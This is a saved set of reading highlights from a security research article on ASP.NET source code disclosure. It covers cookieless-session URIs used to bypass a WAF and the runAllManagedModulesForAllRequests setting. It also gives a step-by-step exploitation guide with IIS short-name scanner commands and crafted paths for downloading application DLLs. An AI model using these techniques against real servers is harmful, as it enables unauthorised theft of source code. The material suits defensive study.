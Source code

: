 ```yaml
---
author: "admin"
aliases: "Source Code Disclosure in ASP.NET Apps"
tags: RW_inbox, readwise/articles
url: https://swarm.ptsecurity.com/source-code-disclosure-in-asp-net-apps/
date: 2024-08-22
---
```

# Source Code Disclosure in ASP.NET Apps

![rw-book-cover](https://swarm.ptsecurity.com/wp-content/uploads/2024/02/8fdda128-preview-2.png)

## Highlights


> It looked like my application was written in C# on the ASP.NET platform, was functioning under IIS, and was protected by a WAF based on nginx.
>  Knowing this was enough to bypass the 403 error:
>  ![](https://swarm.ptsecurity.com/wp-content/uploads/2024/03/8cae72a2-403-bypass.png)
>  The content of the “/login.aspx” page after bypassing the WAF (via a cookieless session)
> [View Highlight](https://read.readwise.io/read/01j5x53p04c02xra1fbp7cb9gc)



> Cookieless Sessions in ASP.NET
>  When you enable the ASP.NET feature in IIS, any page of the server starts accepting cookieless sessions.
>  Here are different formats of these “cookieless sessions”:
>  **ASP.NET Version**
>  **URI**
>  V1.0, V1.1
>  /(XXXXXXXX)/
>  V2.0+
>  /(S(XXXXXXXX))/
>  V2.0+
>  /(A(XXXXXXXX)F(YYYYYYYY))/
>  Source: [https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/aa479315(v=msdn.10)](https://learn.microsoft.com/en-us/previous-versions/dotnet/articles/aa479315(v=msdn.10))
>  The ASP.NET cookieless sessions, along with PHP’s and Java’s analogs, have always been used for WAF bypass, session fixation, XSS, and all kinds of other attacks.
> [View Highlight](https://read.readwise.io/read/01j5x540xtn7n0q4khdysj1bst)



> Investigation
>  After obtaining the RCE, I was able to access the target’s web.config file. Then, I reduced it to the minimum possible configuration:
>  That was it. The runAllManagedModulesForAllRequests setting was the cause of our success.
>  Scaling the POC
>  It quickly became clear that the technique works on other servers. The setting runAllManagedModulesForAllRequests isn’t rare and I was able to download a few DLLs from different websites the same day.
> [View Highlight](https://read.readwise.io/read/01j5x57c3fnr67x82ecb9eh96r)



> Full Exploitation Algorithm
>  Here’s a brief guide on how to check the server on the vulnerability.
>  **1.** Check if cookieless sessions are allowed.
>  # If your application is in the main folder
>  /(S(X))/
>  /(Y(Z))/
>  /(G(AAA-BBB)D(CCC=DDD)E(0-1))/
>  # If your application is in a subfolder
>  /MyApp/(S(X))/
>  ...
>  **2.** Optionally, use IIS-ShortName-Scanner. Note, its functionality doesn’t depend on whether cookieless sessions are enabled or not.
>  java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX_ALLOCATION/'
>  java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/MyApp/bin::$INDEX_ALLOCATION/'
>  In addition to “/bin”, I recommend you to check other special .NET folders:
>  /App_Code
>  /App_WebReferences
>  /App_GlobalResources
>  /App_LocalResources
>  /App_Data
>  /App_Themes
>  /App_Browsers
>  /Themes
>  /Views
>  /Models
>  /Controllers
>  **3.** Try to read DLLs. It’s necessary to reconstruct complete filenames from shortened 8.3 format filenames.
>  http://Y.Y.Y.Y/(S(x))/b/(S(x))in/MyApplicationFile.dll
>  http://Y.Y.Y.Y/MyApp/(S(x))/b/(S(x))in/MyApplicationFile.dll
>  The PDB files, if such exists, will not be accessible.
> [View Highlight](https://read.readwise.io/read/01j5x588xgg46w4wmrmc2k91fj)

